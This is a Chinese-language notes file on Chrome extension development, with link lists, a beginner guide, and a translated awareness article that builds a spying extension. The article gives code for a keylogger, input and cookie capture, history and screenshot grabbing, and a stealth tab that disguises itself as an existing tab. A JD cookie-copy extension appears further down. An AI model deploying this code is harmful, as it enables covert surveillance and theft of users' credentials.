




# Chrome 插件开发入门

Chrome 插件开发文档：[developer.chrome.com](https://developer.chrome.com/extensions)

ChromeAppHeroes：[zhaoolee/ChromeAppHeroes: 🌈谷粒-Chrome插件英雄榜, 为优秀的Chrome插件写一本中文说明书, 让Chrome插件英雄们造福人类~ ChromePluginHeroes, Write a Chinese manual for the excellent Chrome plugin, let the Chrome plugin heroes benefit the human~ 公众号「0加1」同步更新 (github.com)](https://github.com/zhaoolee/ChromeAppHeroes)

文章：[Chrome插件英雄榜 (zhaoolee.com)](https://zhaoolee.com/ChromeAppHeroes/#/)

## 开发框架

### extension.js - 开箱即用、跨浏览器的扩展开发框架

内置对TypeScript、WebAssembly、React和现代 JavaScript 的支持。

GitHub：https://github.com/cezaraugusto/extension.js

官网文档：https://extension.js.org/

## 文章

[写html页面没意思，来挑战chrome插件开发 (qq.com)](https://mp.weixin.qq.com/s/QUgT5bGRutstyo0l6nHFfg)

[开发 chrome 插件实现爬虫 - 掘金 (juejin.cn)](https://juejin.cn/post/6951366925557432356)

[chrome 插件 DIY - 掘金 (juejin.cn)](https://juejin.cn/post/6844903508966113287)

[从零深入 Chrome 插件开发 - 掘金 (juejin.cn)](https://juejin.cn/post/7035782439590952968)

[🌕 手把手从 0 撸一个 Chrome 插件，《特别关注-掘金》 功能 - 掘金 (juejin.cn)](https://juejin.cn/post/7124085369926074399)

[字节跳动 chrome 插件开发指南 - 掘金 (juejin.cn)](https://juejin.cn/post/7114959554709815326)

[飞书 chrome 插件开发指南 - 掘金 (juejin.cn)](https://juejin.cn/post/6970912734086955045)

[从零深入 Chrome 插件开发 - 掘金 (juejin.cn)](https://juejin.cn/post/7035782439590952968)

[【程序员的浪漫】七夕到了，还不快给你女朋友做一个专属 chrome 插件 - 掘金 (juejin.cn)](https://juejin.cn/post/7122332008252080142)

[30 分钟开发一款抓取网站图片资源的浏览器插件 - 掘金 (juejin.cn)](https://juejin.cn/post/6844904119828742152)

[Chrome 插件开发教程之入门指南 (360doc.com)](http://www.360doc.com/content/22/0913/16/11604731_1047745325.shtml)

[Chrome 插件开发入门\_谷歌插件开发\_CShadow7 的博客-CSDN 博客](https://blog.csdn.net/CShadow7/article/details/123730422)

[10 分钟教你开发自己的 Chrome 浏览器插件 - 码农教程 (manongjc.com)](http://www.manongjc.com/detail/51-uzjfsulporgmlpm.html)

[chrome 插件开发指南 - 掘金 (juejin.cn)](https://juejin.cn/post/7114959554709815326)

[从零深入Chrome插件开发 - 掘金 (juejin.cn)](https://juejin.cn/post/7035782439590952968)

[chrome插件之脚本注入 - 掘金 (juejin.cn)](https://juejin.cn/post/7278982293707014155)

[chrome插件之tabs - 掘金 (juejin.cn)](https://juejin.cn/post/7254861776839360573)

[Chrome插件(扩展程序)全面入坑指南(附60篇原创文章链接) - 掘金 (juejin.cn)](https://juejin.cn/post/6844903924055408654)

[🌕手把手从0撸一个 Chrome 插件，《特别关注-掘金》 功能 - 掘金 (juejin.cn)](https://juejin.cn/post/7124085369926074399)

视频课程：[chrome 浏览器插件开发视频教程\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/av763262694/?vd_source=5f0c99b3deddffe219938763769b15ac)


[一个付费 chrome 插件的一生 (t9t.io)](https://blog.t9t.io/star-history-2021-01-21/)

## 相关网站


## 开发入门

---

文章参考：[Chrome 插件开发入门 - 掘金 (juejin.cn)](https://juejin.cn/post/7167562121768042532)

[零基础也能学会！快速制作一个实用的Chrome拓展插件！ - 掘金 (juejin.cn)](https://juejin.cn/post/7280747044246716451)

Chrome 的界面布局和插件式设计决定了其可能的扩展点和机制。


### 创建项目根目录

在您的工作目录中创建一个新文件夹，命名为`my-chrome-extension`，并在其中创建以下文件和文件夹：

- `manifest.json`：插件清单文件，用于定义插件的基本信息和权限。
- `index.html`：弹出式页面的HTML文件
- `index.js`：弹出式页面的JavaScript文件
- `icon.png`：插件图标
- 待定：`qrcode.js`：一个在浏览器生成二维码的库：[cdn.bootcdn.net/ajax/libs/qrcodejs/1.0.0/qrcode.min.js](https://cdn.bootcdn.net/ajax/libs/qrcodejs/1.0.0/qrcode.min.js) 打开复制到qrcode.js文件即可

### Manifest.json:配置入口

用以配置应用名、版本，以及所需的系统权限，最重要、不可缺少，必须置于根目录

- **manifest_version**: 插件版本

目前只支持上架和更新 v3 版本，v2 不再支持，必须在 2023 年前全部替换。且 V3 版的上架审核优先级更高，周期更短。


v3 版本对 v2 版的组件和 API 进行了大幅度的优化和安全增强，最主要的变动如下图


- **Permission 权限**

需要申请正确的权限才可以调用相应的 API，如操作选项卡的 tabs 权限。


**最小权限原则**：尽量使用必要的权限，过多的、敏感权限将导致审核时间大大延长，甚至拒绝


v3 版本中 Api Permission 和 Host Permission 分离，以更清晰的界定权限类别。


### Service Worker: 中央处理器

本质上是浏览器在后台运行的脚本，它是完全独立于它正在处理或服务的网页。它们充当了 web 应用程序、浏览器和网络之间的代理服务器。service worker 赋予 Web 应用程序像原生应用程序一样工作的能力

- **无状态瞬时组件**：在浏览器启动后初始化执行，便销毁
- **事件驱动**： 通过注册各类事件监听器，作为其他组件间的中央处理和通信单元
- **权限最大：** 可以调用除了 Dom 外的大部分 API，完成其他组件不可用执行的功能


### Popup: 弹窗

点击 browser*action 或者 page*action 图标时打开的一个小窗口网页，焦点离开网页就立即关闭，一般用来做一些临时性的交互。

- 大部分插件主要的交互区域、工作方式
- **最大空间**：800 x 600


### ContentJs: 内容脚本

向当前主页面窗口中注入脚本的一种形式，最常见的比如：广告屏蔽、页面 CSS 定制。

- 突破 POP 窗口大小的局限性，自由度更高
- 注意 CSS 样式污染，会导致部分宿主页面变形


## 插件 DIY - Rename Tab

**背景**:

部分网站的所有子页面的标题相同，当打开众多时，很难通过标题快速区分具体是哪个页面，影响并发多开基数。

**功能需求**:

支持手动或自动修改当前页面 Tab 标题，增加 Tab 可辨识性、可搜索性。


### 链接

- [Rename Tab](https://gitee.com/coderkkx/chrome-crx-demo)

# 构建一个窃取一切的 Chrome 扩展程序

这件作品在NBTV YouTube频道上播出：[HOW Browser Extensions Steal Your Data (youtube.com)](https://www.youtube.com/watch?v=cIGESSm39n4)

Manifest v3 可能已经从浏览器扩展中抽走了一些汁液，但我认为油箱里还有很多东西。为了证明这一点，让我们构建一个 Chrome 扩展程序，尽可能多地窃取数据。我说的是厨房水槽、整个玉米饼馅玉米饼馅、格林奇掠夺 Whoville 级别的数据盗窃。

这将完成两件事：

- 探索 Chrome 扩展程序的优势
- 演示如果您不小心安装的内容，您将接触到什么

*免责声明：实际实施这将是邪恶的。不应滥用扩展程序权限、窃取用户数据或构建恶意浏览器扩展程序。未经美国职业棒球大联盟明确书面同意，不建议对这些技术进行任何实施、衍生扩展或使用。*

## 基本规则

- 用户不应意识到幕后正在发生任何事情。
- 不得有任何视觉迹象表明有任何不对劲。
  - 没有额外的控制台消息、警告或错误。
  - 没有其他浏览器警告或权限对话框。
  - 没有额外的页面级网络流量。
- 一旦用户同意**咳咳**充足的权限警告，这是他们最后一次应该考虑扩展的权限。

## Chrome扩展程序速成班

如果您不熟悉浏览器扩展的内部结构，那么对于我们的邪恶扩展，我们关心三个组件：

**后台服务辅助角色**

- 事件驱动。可用作运行 JavaScript 的“持久”容器
- 可以访问所有*的 WebExtensions API
- 无法访问 DOM API
- 无法直接访问页面

**弹出页面**

- 仅在用户交互后打开
- 可以访问所有*的 WebExtensions API
- 可以访问 DOM API
- 无法直接访问页面

**内容脚本**

- 可以直接和完全访问所有页面和 DOM
- 可以在页面中运行 JavaScript，但在沙盒运行时
- 只能使用 WebExtensions API 的子集
- 受与页面相同的限制（CORS 等）

有轻微限制，不包括电池

## 获取全局权限

只是为了好玩，我们的恶意扩展将请求*所有*可能的权限。 https://developer.chrome.com/docs/extensions/mv3/declare_permissions/ 有一个 Chrome 扩展程序权限列表，我们将接受很多。

在删除 Chrome 不支持的所有权限后，我们会得到以下信息：

```json
{
  ...
  "host_permissions": ["<all_urls>"],
  "permissions": [
    "activeTab",
    "alarms",
    "background",
    "bookmarks",
    "browsingData",
    "clipboardRead",
    "clipboardWrite",
    "contentSettings",
    "contextMenus",
    "cookies",
    "debugger",
    "declarativeContent",
    "declarativeNetRequest",
    "declarativeNetRequestWithHostAccess",
    "declarativeNetRequestFeedback",
    "desktopCapture",
    "downloads",
    "fontSettings",
    "gcm",
    "geolocation",
    "history",
    "identity",
    "idle",
    "management",
    "nativeMessaging",
    "notifications",
    "pageCapture",
    "power",
    "printerProvider",
    "privacy",
    "proxy",
    "scripting",
    "search",
    "sessions",
    "storage",
    "system.cpu",
    "system.display",
    "system.memory",
    "system.storage",
    "tabCapture",
    "tabGroups",
    "tabs",
    "tabs",
    "topSites",
    "tts",
    "ttsEngine",
    "unlimitedStorage",
    "webNavigation",
    "webRequest"
  ],
}
```

manifest.json

这些权限中的大多数都不需要，但谁在乎呢？让我们看看警告消息是什么样子的：




Chrome 会滚动权限警告消息容器，因此超过一半的警告消息甚至不会显示。我敢打赌，大多数用户不会三思而后行，安装一个似乎只要求 5 个权限的扩展程序。

**完整的**权限警告列表如下：

- 首屏：
  - 访问页面调试器后端
  - 读取和更改您在网站上的所有数据
  - 检测您的实际位置
  - 读取和更改所有已登录设备上的浏览历史记录
  - 显示通知
- 首屏下方：
  - 阅读和更改书签
  - 读取和修改复制和粘贴的数据
  - 捕获屏幕内容
  - 管理下载内容
  - 识别和弹出存储设备
  - 更改网站访问cookie，JavaScript，插件，地理位置，麦克风，相机等功能的设置。
  - 管理应用、扩展程序和主题背景
  - 与合作的本机应用程序通信
  - 更改与隐私相关的设置
  - 查看和管理标签页组
  - 使用口语合成语音阅读所有文本

让我们添加一个在所有页面和框架中运行的内容脚本，将扩展的覆盖范围扩展到隐身窗口，并使所有资源都可以访问，以备不时之需：

```json
{
  ...
  "web_accessible_resources": [
    {
      "resources": ["*"],
      "matches": ["<all_urls>"]
    }
  ],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "all_frames": true,
      "css": [],
      "js": ["content-script.js"],
      "run_at": "document_end"
    }
  ],
  "incognito": "spanning",
}
```

manifest.json

## 扩建立面

我们令人发指的扩展将伪装成一个笔记应用程序：




这为我们提供了一个将经常打开的扩展页面，使我们能够静默地执行恶意数据收集。我们还将使用后台服务辅助角色。

## 分析和数据泄露

生命短暂，互联网速度快，存储便宜。我们的扩展决定收集的任何数据都可以发送到我们通过后台服务工作者控制的服务器，用户将不会更聪明。只有当他们决定检查扩展本身的网络活动时，这些网络请求才会显示出来，这很难到达。

想要在网页上添加侵入性用户跟踪吗？没关系！来自后台页面的网络流量不受广告拦截器或其他用户隐私扩展程序的约束，因此可以跟踪每一次点击和击键，让您满意。（外部网络流量管理器和 PiHole 之类的东西仍然可以工作）

## 唾手可得的果实

从一开始，WebExtensions API 就让我们几乎不费吹灰之力地收集了相当多的信息。

### 饼干

将浏览器的所有 cookie 检索为数组。

```js
chrome.cookies.getAll({})
```

### 历史

以数组的形式检索用户的整个浏览历史记录。

```js
chrome.history.search({ text: "" })
```

### 截图

静默捕获用户当前正在查看的任何内容的屏幕截图。我们可以随心所欲地调用从内容脚本发送的消息 - 甚至更频繁地调用我们认为有价值的 URL。API 将图像作为漂亮的数据 URL 字符串返回，因此将它们发送到我们的数据收集终结点是微不足道的。

```js
chrome.tabs.captureVisibleTab()
```

您的浏览器扩展程序现在正在捕获您的屏幕吗？你永远不会知道！

### 用户导航

我们可以使用 API 轻松实时跟踪用户的浏览活动：`webNavigation`

background.js

```js
chrome.webNavigation.onCompleted.addListener((details) => {
  // {
  //   "documentId": "F5009EFE5D3C074730E67F5C1D934C0A",
  //   "documentLifecycle": "active",
  //   "frameId": 0,
  //   "frameType": "outermost_frame",
  //   "parentFrameId": -1,
  //   "processId": 139,
  //   "tabId": 174034187,
  //   "timeStamp": 1676958729790.8088,
  //   "url": "https://www.linkedin.com/feed/"
  // }
});
```

### 页面流量

该 API 允许我们查看每个选项卡中的所有网络流量，使用 梳理出网络流量，并提取捕获凭据、地址等：`webRequest`、`requestBody`

background.js

```js
chrome.webRequest.onBeforeRequest.addListener(
  (details) => {
    if (details.requestBody) {
      // Capture requestBody data
    }
  },
  {
    urls: ["<all_urls>"],
  },
  ["requestBody"]
);
```

### 键盘记录

由于每个页面上都运行一个内容脚本，因此阅读击键非常容易。创建一个定期刷新的击键缓冲区将为我们提供易于阅读的漂亮连续击键。

content-script.js

```js
let buffer = "";

const debouncedCaptureKeylogBuffer = _.debounce(async () => {
  if (buffer.length > 0) {
    // Flush the buffer

    buffer = "";
  }
}, 1000);

document.addEventListener("keyup", (e: KeyboardEvent) => {
  buffer += e.key;

  debouncedCaptureKeylogBuffer();
});
```

### 输入捕获

从内容脚本中，我们可以只侦听 `input` 任何可编辑元素上的事件并捕获它们的价值。 

content-script.js

```js
[...document.querySelectorAll("input,textarea,[contenteditable]")].map((input) =>
  input.addEventListener("input", _.debounce((e) => {
    // Read input value
  }, 1000))
);
```

如果我们期望页面 DOM 经常更改（例如，使用 SPA），我们当然不想错过任何有价值的数据。只需设置 a 即可观看整个页面，并根据需要重新应用侦听器。`MutationObserver`

content-script.js

```js
const inputs: WeakSet<Element> = new WeakSet();

const debouncedHandler = _.debounce(() => {
  [...document.querySelectorAll("input,textarea,[contenteditable")]
    .filter((input: Element) => !inputs.has(input))
    .map((input) => {
      input.addEventListener(
        "input",
        _.debounce((e) => {
          // Read input value
        }, 1000)
      );

      inputs.add(input);
    });
}, 1000);

const observer = new MutationObserver(() => debouncedHandler());
observer.observe(document.body, { subtree: true, childList: true });
```


### 剪贴板捕获

这个有点棘手。 或任何其他剪贴板 API 方法将提示用户权限对话框，因此这些是禁止的。 

```js
navigator.clipboard.read()
```





用于 将剪贴板转储到隐藏输入中是不可靠的，因此我们只能从页面中抓取所选文本。`document.execCommand("paste")`

content-script.js

```js
document.addEventListener("copy", () => {
  const selected = window.getSelection()?.toString();

  // Capture selected text on copy events
});
```

（注意：我对此并不完全满意，但现在已经足够了。

### 捕获地理位置

地理位置捕获是最棘手的，因为 Chrome 对何时以及如何捕获它进行了限制。添加 权限仅允许我们捕获*扩展页面*内的位置，而不能从内容脚本中捕获位置。如果弹出窗口打开的频率足够高，这可能就足够了。`geolocation`

popup.js

```js
navigator.geolocation.getCurrentPosition(
  (position) => {
    // Capture position
  },
  (e) => {},
  {
    enableHighAccuracy: true,
    timeout: 5000,
    maximumAge: 0,
  }
);
```

如果我们需要*更多*地理位置数据，则需要从内容脚本中完成。我们需要防止浏览器生成权限对话框，因此首先我们检查页面是否已经具有地理位置权限。如果是这样，我们可以静默地请求位置。

content-script.js

```js
navigator.permissions
  .query({ name: "geolocation" })
  .then(({ state }: { state: string }) => {
    if (state === "granted") {
      captureGeolocation();
    }
  });
```

### 隐身选项卡

如果你和我一样，你会打开一大堆标签。大多数标签页会长时间闲置，Chrome 会急切地卸载空闲标签页以释放系统资源。

假设我们需要在用户不注意的情况下在选项卡中打开扩展页面。也许我们需要使用 WebExtensions API 执行一些额外的页面级处理。打开和关闭一个新选项卡会导致选项卡栏中出现大量视觉移动，这太可疑了。相反，让我们重用现有选项卡并使其*看起来像*旧选项卡。

这可以按如下方式工作：

1. 查找用户未注意的候选选项卡。
2. 记录其 URL、网站图标 URL 和标题。
3. 将该选项卡替换为我们的扩展页面，并立即替换图标和标题，使其类似于原始选项卡。
4. 做坏事。
5. 页面完成后，或用户打开选项卡后，导航回原始 URL。

让我们构建一个概念验证。下面是一个打开隐身选项卡的示例后台脚本：

background.js

```js
export async function openStealthTab() {
  const tabs = await chrome.tabs.query({
    // Don't use the tab the user is looking at
    active: false,
    // Don't use pinned tabs, they're probably used frequently
    pinned: false,
    // Don't use a tab generating audio
    audible: false,
    // Don't use a tab until it is finished loading
    status: "complete",
  });

  const [eligibleTab] = tabs.filter((tab) => {
    // Must have url and id
    if (!tab.id || !tab.url) {
      return false;
    }

    // Don't use extension pages
    if (new URL(tab.url).protocol === "chrome-extension:") {
      return false;
    }

    return true;
  });

  if (eligibleTab) {
    // These values will be used to spoof the current page
    // and navigate back
    const searchParams = new URLSearchParams({
      returnUrl: eligibleTab.url as string,
      faviconUrl: eligibleTab.favIconUrl || "",
      title: eligibleTab.title || "",
    });

    const url = `${chrome.runtime.getURL(
      "stealth-tab.html"
    )}?${searchParams.toString()}`;

    // Open the stealth tab
    await chrome.tabs.update(eligibleTab.id, {
      url,
      active: false,
    });
  }
}
```

这是我们的隐身选项卡脚本：stealth-tab.js

```js
const searchParams = new URL(window.location.href).searchParams;

// Spoof the previous page tab appearance
document.title = searchParams.get('title);
document.querySelector(`link[rel="icon"]`)
  .setAttribute("href", searchParams.get('faviconUrl'));

function useReturnUrl() {
  // User focused this tab, flee!
  window.location.href = searchParams.get('returnUrl');
}

// Check to see if this page is visible on load
if (document.visibilityState === "visible") {
  useReturnUrl();
}

document.addEventListener("visibilitychange", () => useReturnUrl());

// Now do bad things

// Done doing bad things, return!
useReturnUrl();
```




这里没什么可疑的！

## 发布到 Chrome 网上应用店

当然，我是在开玩笑。此扩展将在审查队列中被嘲笑。

这个扩展显然是恶意扩展的漫画，但认为可以使用这种行为的子集是不是很疯狂？在安装看似值得信赖的 Chrome 扩展程序 （无论这意味着什么）时，大多数用户都会忽略权限警告消息，无论它们多么可怕。一旦你接受了权限，你就任由扩展程序摆布。

你可能会想：“马特，这肯定不适用于我！我是一个精明的技术大师，细心、挑剔、谄媚。没有人能把一个拉到我身上。

在这种情况下，我痴迷的朋友，请回答以下问题：

- 不用看，你能说出你现在安装的一半以上的扩展吗？
- 谁来维护它们？它是您首次安装时维护它的同一实体吗？是否确定？
- 你真的 仔细审查了他们的权限吗？

## 如果你敢的话，试试吧

您可以在此处测试间谍扩展：https://github.com/msfrisbie/spy-extension

我添加了一个选项页面，因此您可以看到扩展程序能够从浏览器中吸取的所有掠夺数据。我不会发布屏幕截图;可以说，页面的内容*有点*妥协。

收集到的任何内容都不会离开您的浏览器。或者是吗？（不，它没有）

Matt Frisbie 是[《Building Browser Extensions](https://www.buildingbrowserextensions.com/)》一书的作者

您可以通过 [mattfriz.com](https://www.mattfriz.com/) 与我联系

# 轻松获取京东cookie的插件---附教程

### background.js

```js

chrome.browserAction.onClicked.addListener(function () {
    showCookie();
});

function text2clip(text) {
    var copyFrom = document.createElement("textarea");
    copyFrom.textContent = text;
    var body = document.getElementsByTagName('body')[0];
    body.appendChild(copyFrom);
    copyFrom.select();
    document.execCommand('copy');
    body.removeChild(copyFrom);
}
function notify(msg) {
    if (window.Notification) { new Notification(chrome.app.getDetails().name, { icon: chrome.app.getDetails().icons['48'], body: msg }); }
}


async function showCookie() {
    let cookieString = await getIdFromCookie();
    text2clip(cookieString);
    notify("Cookies 已经成功复制到剪切板。");
}

async function getIdFromCookie() {
    let promise1 = new Promise((resolve, reject) => {
        chrome.tabs.getSelected(null, function (tab) {
            var url = tab.url;
            var arr = url.split("/");
            var result = arr[0] + '//' + arr[2]

            resolve(result)
        })
    })

    let domain = await promise1;
    console.log("domain", domain);
    let stringCookie = "";
    let promise = new Promise((resolve, reject) => {
        chrome.cookies.getAll({
            url: domain
        }, async function (cookies) {
            for (var i = 0; i < cookies.length; i++) {
                if (cookies[i].name.length > 0 && cookies[i].value.length > 0) {
                    stringCookie = stringCookie + cookies[i].name + "=" + cookies[i].value + "; ";
                }
            }
            resolve(stringCookie);

        });
    })
    try {
        let result = await promise;
        return result;
    } catch (error) {
        return false;
    }
}
```

### manifest.json

```json

{
  "manifest_version": 1,
  "name": "JDCookie",
  "description": "One click copy cookies to your clipboard",
  "author": "xxx",
  "version": "1.0",
  "background": {"persistent": true,"scripts": ["background.js"]},
  "icons": { "16": "icon_16.png","48": "icon_48.png","128": "icon_128.png" },
  "permissions": [ "cookies", "tabs", "http://*/", "https://*/", "<all_urls>","clipboardWrite","clipboardRead","notifications","declarativeContent","activeTab"],
  "browser_action": {
    "default_icon": "icon.png",
    "default_title": "点击拷贝Cookie"
  }
}
```

### 使用方法：

- 将**background.js和manifest.json放在新建的文件夹JDCookie之下；**
- 点击`加载已解压的拓展程序`，选择`JDCookie`目录；
- 登录京东,根据提示生成icon_16.png，icon_48.png，icon_128.png；
- 点击`JDCookie`即可拷贝京东cookie；

# Chrome 开源插件

- [Anarios/return-youtube-dislike：用于返回 youtube 不喜欢的 Chrome 扩展程序 (github.com)](https://github.com/Anarios/return-youtube-dislike)
- [scriptscat/scriptcat: 脚本猫，一个可以执行用户脚本的浏览器扩展 (github.com)](https://github.com/scriptscat/scriptcat)

- [lcomplete/huntly: Huntly, information management tool, rss reader, automatic saving browsed contents include tweets, github stars management tool. 信息管理工具、RSS 阅读器、GitHub stars 管理、推文管理、自动记录浏览过的文章。](https://github.com/lcomplete/huntly)
- [chibat/chrome-extension-typescript-starter：Chrome 扩展程序 TypeScript Starter (github.com)](https://github.com/chibat/chrome-extension-typescript-starter)
- [AutomaApp/automa：一个浏览器扩展，用于通过连接块来自动化浏览器 (github.com)](https://github.com/AutomaApp/automa)
- [mika-cn/maoxian-web-clipper：用于从网页中剪辑信息的 Web 扩展。将其保存到本地计算机以避免信息失效。不无聊的注册，不收费。 (github.com)](https://github.com/mika-cn/maoxian-web-clipper)
- [一个修改Ajax请求响应结果的Chrome扩展插件](https://github.com/PengChen96/ajax-tools)

### B站相关插件

【b站还能装插件？三分钟让你的b站像开外挂一样好用！】https://www.bilibili.com/video/BV15t421P7Dt?vd_source=36c9491a7fa2ab8a22ca060af01b7472

BiliPlus：https://github.com/0xlau/biliplus

BiliScope：https://github.com/gaogaotiantian/biliscope

BewlyBewly：https://github.com/hakadao/BewlyBewly

pakku：哔哩哔哩弹幕过滤器：https://github.com/xmcp/pakku.js

Bilibili-Evolved：https://github.com/the1812/Bilibili-Evolved

bilibili-app-recommend：https://greasyfork.org/zh-CN/scripts/443530-bilibili-app-recommend

首页推荐：https://github.com/indefined/UserScripts

抽奖取关：https://greasyfork.org/zh-CN/scripts/387046

Bilibili 按标签、标题、时长、UP主屏蔽视频：https://greasyfork.org/zh-CN/scripts/481629

b站屏蔽增强器：https://greasyfork.org/zh-CN/scripts/461382-b%E7%AB%99%E5%B1%8F%E8%94%BD%E5%A2%9E%E5%BC%BA%E5%99%A8

# Chrome 插件推荐

[推荐10个"不能错过"的 Chrome 插件给工友们🔥 - 掘金 (juejin.cn)](https://juejin.cn/post/7095524318339137573)

[强推 20 款实用的 Chrome 浏览器插件 - 掘金 (juejin.cn)](https://juejin.cn/post/7327893130572824611)

[超好用的 chrome 浏览器插件推荐（外语阅读困难者福音） - 掘金 (juejin.cn)](https://juejin.cn/post/7320474963062882345)

[【利器篇】35+精选chrome插件，含15+前端插件，总有一款值得你停留 - 掘金 (juejin.cn)](https://juejin.cn/post/6998300409173377032)

[Chrome浏览器必备插件推荐 - 掘金 (juejin.cn)](https://juejin.cn/post/7126191827715096583)

[《Chrome插件英雄榜》珍藏的100个Chrome插件，个个是精品! 收藏就是赚到~ - 掘金 (juejin.cn)](https://juejin.cn/post/6943560672936460301)

## 插件下载网站

[极简插件官网_Chrome插件下载_Chrome浏览器应用商店 (zzzmh.cn)](https://chrome.zzzmh.cn/)

[Crx搜搜 - 一个牛X的扩展和应用商店 (crxsoso.com)](https://www.crxsoso.com/)
